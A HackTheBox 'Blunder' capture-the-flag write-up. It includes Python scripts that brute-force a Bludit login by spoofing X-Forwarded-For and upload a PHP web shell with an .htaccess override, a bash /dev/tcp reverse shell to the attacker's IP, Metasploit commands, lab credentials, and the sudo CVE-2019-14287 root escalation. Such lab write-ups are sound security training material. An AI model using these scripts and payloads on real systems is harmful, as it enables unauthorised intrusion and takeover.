

This is an Easy box from HackTheBox. 

It's OS is Linux, which is common in HackTheBox Machines.

It's exploration was through Web.

My rate for this machine is 7/10.

I enjoyed the way we get reverse shell on this box, and mainly the PHP code analysis to get the vulnerability.

In the end you can find the automated script to explore this machine!

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.191
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

Once we found just the port 80 opened, so let's focus on this one to enumerate it.

We open it on the browser and see what is being shown.


We look at the source code, nothing useful

Start enumerate it with `Gobuster` 

I'll run gobuster against the site, and include -x php,txt since I know the site is PHP, and since it’s an easy box so some CTF-like stuff might show up in .txt files:

```sh
gobuster dir -u http://10.10.10.191 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o scans/gobuster-root-medium -x txt
```

Obs: one good wordlist we can use is the `/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt`


Two of them called my attention. The `todo.txt` and the `admin`, so let's inspect it.

> /admin


> /todo.txt


We get that the CMS running is `BLUDIT` as has a user called `fergus`.

We look for vulnerabilities and found many of them on searchsploit

```sh
searchsploit bludit
```


We found some exploits for it, but we don't know which version of Bludit is running on the server, we can look at the source code to discover it


Seems to be 3.9.2

We look at the Github to look for bludit


We see on the Github page that there is a `README.md` file, we can try to get it from the server, to confirm which version is running there


Unfortunatelly it does not show the version. But we know that it's 3.9.2.

I started to looking at Google to find something useful for this CMS, and found a blod from [Rastating](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) which is very useful for us. It shows how the application was built to avoid BruteForce on the password. The CMS tries to get the IP from **X-FORWARDED-FOR** header, that is where php save the IP. It works this way because many users sit behind proxies, than, they will allow the user does not get banned. The problem is that I can control this field, so I can byppass the brute force protection.


After we get this box, I'll look at the source code to understand it. Trying to get it from a whitebox perspective.

# Scripting - User BruteForce

So, before getting into it using rockyou, I'll make a wordlist from `cewl` with the website.

```sh
cewl http://10.10.10.191 > wordlist.txt
```

350 is a good number to start with


We got a skeleton in python to start working on it

```py
#!/usr/bin/python3

import argparse
import requests
import sys

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username for bruteforce', required=True)
    parser.add_argument('-w', '--wordlist', help='Wordlist for bruteforce', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    username = args.username
    wordlist = args.wordlist

    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

First, we need a request from burp with a login attempt, to see how it's built


We see that we have `csrfTOKEN` on it, and cookie, so we need to grab then.


Let's send to repeater and minimize it, to be better to send over the python script.

We get the error message when the password is incorret.


If we try many times, we get blocked, as the blog said


Fine, let's try to see if our **X-FORWARDED-FOR**

We send a new request to the server, set it to Repetaer and add the **X-FORWARDED-FOR** on the header, and see that it works!


We get smaller request, so it's better to work


Now we mount our python script to bruteforce the user password

user_brute.py

```py
#!/usr/bin/python3
# Date: 2021-09-02
# Exploit Author: 0x4rt3mis
# Hack The Box - Blunder

import argparse
import requests
import sys
import os

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# First, we need to get the CSRFToken
def getCSRFToken(rhost):
    # Make csrfMagicToken global
    global csrf_token
    # Make the request to get csrf token
    csrf_page = r.get(login_url, verify=False, proxies=proxies)
    # Get the index of the page, search for csrfMagicToken in it
    index = csrf_page.text.find("tokenCSRF")
    # Get only the csrfMagicToken in it
    csrf_token = csrf_page.text[index:index+128].split('"')[4]
    if csrf_token:
        return csrf_token
    else:
        print("[+] Cannot get the CSRF_TOKEN[+]")
        exit
    
# Now we make the login requests
def loginRequest(rhost,wordlist,username):
    # Let's iterate trough the wordlist
    file = open(wordlist, "r")
    iter = 0
    for line in file:
        # Get the csrf_token for each request
        getCSRFToken(rhost)
        # Set the proper http request
        line = line.strip()
        headers = {"Content-Type": "application/x-www-form-urlencoded", "Origin": "http://%s" %rhost, "X-FORWARDED-FOR": "%s" %line}
        data = {"tokenCSRF": "%s" %csrf_token, "username": "%s" %username, "password": "%s" %line, "save": ''}
        login = r.post(login_url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
        if "incorrect" in login.text:
            iter = iter + 1
            os.system('clear')
            print()
            print("[+] Trying %s:%s" %(username,line))
            print("[+] Wrong Password - Attempt Number: %s [+]" %iter, flush=True)
        else:
            os.system('clear')
            print()
            print("[+] Password FOUND!!!!!")
            print("[+] Attempt number: %s" %iter)
            print("[+] Username: %s and Password: %s" %(username,line))
            print()
            break
            
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username for bruteforce', required=True)
    parser.add_argument('-w', '--wordlist', help='Wordlist for bruteforce', required=True)
    args = parser.parse_args()
    
    ''' Set some variables '''
    rhost = args.target
    username = args.username
    wordlist = args.wordlist
    global login_url
    login_url = 'http://' + rhost + '/admin/login'
    
    '''Here we call the functions'''
    loginRequest(rhost,wordlist,username)
    
if __name__ == '__main__':
    main()
```

Execute it


And we found the right passsword for the user `fergus`

`fergus:RolandDeschain`


Now that we have a valid user and password, let's log in the application and see how we can get a reverse shell in it, in order to update our exploit.

# Reverse Shell

So, we log in the application


On the new content tab we see that we can upload archives in it.


Here, the way to upload archives is a little bit different, and when I got the code I'll explain better how to get it working.

There are a script in Metasploit that works it, so let's pass the execution of the module trough metasploit and see exactly what it does.

## Upload File

First, disable file extensions client response in burp


```sh
msfconsole -q
use linux/http/bludit_upload_images_exec
set BLUDITPASS RolandDeschain
set BLUDITUSER fergus
set RHOST 10.10.10.191
set LHOST 10.10.14.20
set Proxies http:127.0.0.1:8080
set ReverseAllowProxy true
run
```

We see the requests on BurpSuite


And we got a shell on msfconsole


Let's see how it worked

First, one simple GET on the admin index page, to get the cookies and the CSRFTOKEN


Now it log in page


Go to index.php


New-Content


And add the php reverse shell as a image, in this case png


Here seems that it is changing the .htaccess to execute png as php. We will see it better after, when we get the code to analyze.


Looking for vulnerabilities of this CMS on the internet, we found to Issues on it's github page, which leads to RCE.

[1079](https://github.com/bludit/bludit/issues/1079)

[1081](https://github.com/bludit/bludit/issues/1081)

Sure, what we will do now is to reproduce it in our python script the vulnerabiliy described in it.

We upload a "image", on the New-Content field


We forward the request, and get error, but we know that when it fails, the archive is moved to /tmp


Now we upload the `.htaccess` archive which will execute this php archive


Sure, if we try now we have the `0x4rt3mis.php `uploaded on the tmp folder and executing commands


Let's update the script


user_brute.py

```py
#!/usr/bin/python3
# Date: 2021-09-02
# Exploit Author: 0x4rt3mis
# Hack The Box - Blunder

import argparse
import requests
import sys
import os
import socket, telnetlib
from threading import Thread
import threading
import re

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Setar o handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# First, we need to get the CSRFToken
def getCSRFToken(rhost):
    # Make csrfMagicToken global
    global csrf_token
    # Make the request to get csrf token
    csrf_page = r.get(login_url, verify=False, proxies=proxies)
    # Get the index of the page, search for csrfMagicToken in it
    index = csrf_page.text.find("tokenCSRF")
    # Get only the csrfMagicToken in it
    csrf_token = csrf_page.text[index:index+128].split('"')[4]
    if csrf_token:
        return csrf_token
    else:
        print("[+] Cannot get the CSRF_TOKEN[+]")
        exit
    
# Now we make the login requests
def loginRequest(rhost,wordlist,username):
    # Let's iterate trough the wordlist
    file = open(wordlist, "r")
    iter = 0
    print("[+] Let's start bruteforce, keep calm!! [+]")
    for line in file:
        # Get the csrf_token for each request
        getCSRFToken(rhost)
        # Set the proper http request
        line = line.strip()
        headers = {"Content-Type": "application/x-www-form-urlencoded", "Origin": "http://%s" %rhost, "X-FORWARDED-FOR": "%s" %line}
        data = {"tokenCSRF": "%s" %csrf_token, "username": "%s" %username, "password": "%s" %line, "save": ''}
        login = r.post(login_url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
        if "incorrect" in login.text:
            iter = iter + 1
        else:
            print("[+] Password FOUND!!!!!")
            print("[+] Attempt number: %s" %iter)
            print("[+] Username: %s and Password: %s" %(username,line))
            global password
            password = ''
            print("[+] Valid CSRF to login: %s " %csrf_token)
            return csrf_token
        
def uploadPhpCmd(rhost):
    print("[+] Uploading the Webshell on %s [+]" %rhost)
    # Get the new csrf token to upload images
    url_get_csrf = 'http://' + rhost + '/admin/new-content'
    resp = r.get(url_get_csrf, proxies=proxies, cookies=r.cookies)
    csrf_token_up = re.findall('\nvar tokenCSRF = "([0-9a-f]{32,})";', resp.text)[0]
    print("[+] New CSRF Token GOT: %s [+]" %csrf_token_up)
    url_upload = 'http://' + rhost + '/admin/ajax/upload-images'
    form_data = {'images[]': ('0x4rt3mis.php', '<?php system($_REQUEST["cmd"]); ?>', 'image/png')}
    data = {'uuid': 'junk',
            'tokenCSRF': csrf_token_up}
    r.post(url_upload, data=data, cookies=r.cookies, files=form_data, proxies=proxies, allow_redirects=False)
    print("[+] Web shell uploaded!! [+]")
    print("[+] Let's write the .htaccess!! [+]")
    url_upload = 'http://' + rhost + '/admin/ajax/upload-images'
    form_data = {'images[]': ('.htaccess', 'RewriteEngine off', 'image/png')}
    data = {'uuid': 'junk',
        'tokenCSRF': csrf_token_up}
    r.post(url_upload, cookies=r.cookies, data=data, files=form_data, proxies=proxies, allow_redirects=False)
    print("[+] .htaccess done! [+]")
    
def getReverse(rhost,ip,lport):
    print("[+] Now give me the shell!!!! [+]")
    url_shell = 'http://' + rhost + '/bl-content/tmp/0x4rt3mis.php'
    print("[+] Enjoy your shell! [+]")
    r.get(url_shell, params={'cmd':f'bash -c "bash -i >& /dev/tcp/%s/%s 0>&1"' %(ip,lport)}, proxies=proxies)
    

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username for bruteforce', required=True)
    parser.add_argument('-w', '--wordlist', help='Wordlist for bruteforce', required=True)
    parser.add_argument('-li', '--localip', help='Local IP', required=True)
    parser.add_argument('-lp', '--lport', help='Local Port', required=True)
    args = parser.parse_args()
    
    ''' Set some variables '''
    lport = args.lport
    ip = args.localip
    rhost = args.target
    username = args.username
    wordlist = args.wordlist
    global login_url
    login_url = 'http://' + rhost + '/admin/login'
    
    '''Here we call the functions'''
    
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Make the login request
    loginRequest(rhost,wordlist,username)
    # Now upload the webshell on the server and write htaccess
    uploadPhpCmd(rhost)
    # Now get the reverse shell baby
    getReverse(rhost,ip,lport)
if __name__ == '__main__':
    main()
```

# Source Code

Now with proper and easy access to the machine, let's analise it to look for how this vulnerability works before get root

We look on the root folder from the web page and see the folder structure

We see it's structure


We look for the error message

```sh
grep -lRi "ip address has been"
```


We found the function `addToBlacklist`


We search for it

```sh
grep -lri "function addToBlacklist("
```


We open the `security.class.php` and see how it works


On line `79` it defines the **addToBlacklist** function, which get the userip, with the function **getUserIp** on line 108, and matches with the blacklist, if the ip is blacklisted, it shows the error message.

On line `108` we see the vulnerability on the **getUserIp** function

```php
   108          public function getUserIp()
   109          {
   110                  if (getenv('HTTP_X_FORWARDED_FOR')) {
   111                          $ip = getenv('HTTP_X_FORWARDED_FOR');
   112                  } elseif (getenv('HTTP_CLIENT_IP')) {
   113                          $ip = getenv('HTTP_CLIENT_IP');
   114                  } else {
   115                          $ip = getenv('REMOTE_ADDR');
   116                  }
   117                  return $ip;
   118          }
```

Line 110 get the user ip from HTTP_X_FORWARDED_FOR, one parameter that we can control, so, changing it always on the exploit, we will never get blacklisted.

That's the vulnerability for the Authentication Bypass on this box. Now let's understand the vulnerability for the upload mechanism.


We search for the error message, to find where it's being triggered

```sh
grep -lRi "File type is not supported"
```


Or we can also find it on the burpsuite looking for the path of the upload php file


Ok, now we give a simple cat on this file to see it's code.

On line 30, we see that it's iterating trough the uploaded files, that's ok. On line 41, we see that it moves the file to tmp folder, which we will se later on this analysis. And just on the lines 49-53 it checks for extensions or anything like that. So, does not matter what extension we put there, the file will be saved on the temp folder, and only after it triggered the error message on the browser.


So, let's see what are the allowed extensions

```sh
grep -lRi "ALLOWED_IMG_EXTENSION"
```


On the file, `bl-kernel/boot/variables.php` we get it. Okay, it seems to be as we see the error message on the browser.


Now, let's look for the PATH_TMP, from where the archives are being saved

```sh
grep -lR PATH_TMP
```


We get it ont the file `bl-kernel/boot/init.php`

We see that it's PATH_CONTENT + TMP, but where is the PATH_CONTENT?


We grep for it and find... It's the PATH_ROOT + BL-CONTENT + TMP


Yes, it's there, we already now how to upload php and locate where it's being saved. Now we must see the .htaccess file, which will allow us to execute php code on the folder


Here is the .htacces, from the PATH_ROOT, before we overwrite the tmp .htaccess it was like this one


And here, the one we changed, allowing us to execute php files on it.


Great. We've finished the source code anaysis of this application, now we must get the root.

# www-data --> hugo

To get root, first we need to become `hugo`

Navigating trough the web app, we see that the file `/bl-content/databases/users.php` has two users


And the version 3.10 has one user. More insteresting


We see that it's possible SHA1


So, we google for it


And the password is `Password120`

So, we log as `hugo`


# hugo --> root

Now we give the commmand `sudo -l` to see what permissions this user has on this box

```sh
sudo -l
```


The sudoers privileges our user has don’t appear to give us anything we can use since it explicitely blocks root.

However, because of CVE-2019-14287 in sudo, we can bypass the username check by using `#-1` and we get a root shell.

When running sudo, you can enter `-u [user]` to say which user to run as. You can also enter the user as a number in the format `-u#[uid]`. root is used id 0, so I can try:

```sh
sudo -u#-1 /bin/bash
```


Finished it.
